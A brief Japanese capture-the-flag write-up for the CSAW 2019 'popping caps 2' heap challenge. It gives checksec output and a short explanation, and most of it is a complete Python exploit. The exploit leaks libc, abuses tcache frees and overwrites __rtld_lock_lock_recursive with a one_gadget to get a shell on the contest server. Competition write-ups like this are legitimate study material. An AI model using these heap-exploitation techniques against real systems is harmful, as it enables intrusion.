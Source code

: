 # [pwn 350pts] popping caps 2 - CSAW CTF Qualification 2019
64ビットバイナリで、RELRO以外有効です。
```
$ checksec -f popping_caps
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
No RELRO        Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   79 Symbols     Yes      0               6       popping_caps
```
一見popping capsと同じですが、よく見るとwriteできるサイズが大きくなっているのと、終了時にmallocされなくなっています。考え直すのが面倒なので`__rtld_lock_lock_recursive`を使いました。（は？）
動くone gadgetが無いのですが、探索レベルを上げればぎりぎり起動するgadgetが見つかります。
```python
from ptrlib import *

def malloc(size):
    sock.sendlineafter(": \n", "1")
    sock.sendlineafter(": \n", str(size))
    return

def free(ofs):
    sock.sendlineafter(": \n", "2")
    sock.sendlineafter(": \n", str(ofs))
    return

def write(data):
    sock.sendlineafter(": \n", "3")
    sock.sendafter(": \n", data)
    return

libc = ELF("./libc.so.6")
#sock = Process("./popping_caps")
sock = Socket("pwn.chal.csaw.io", 1008)

#one_gadget = 0x4f322
#one_gadget = 0x10a3c8
#one_gadget = 0x4f2c5
one_gadget = 0xe569f

# leak libc
sock.recvuntil("system ")
addr_system = int(sock.recvline(), 16)
libc_base = addr_system - libc.symbol("system")
logger.info("libc base = " + hex(libc_base))

malloc(0x3a8)
free(0)
free(-0x210)

malloc(0xf8)
write(p64(libc_base + 0x619f60)) # __rtld_lock_lock_recursive

malloc(0x18)
write(p64(libc_base + one_gadget))
#write(p64(0xffffffffffffffff))

sock.interactive()
```

# 感想
楽して解いてしまつた。

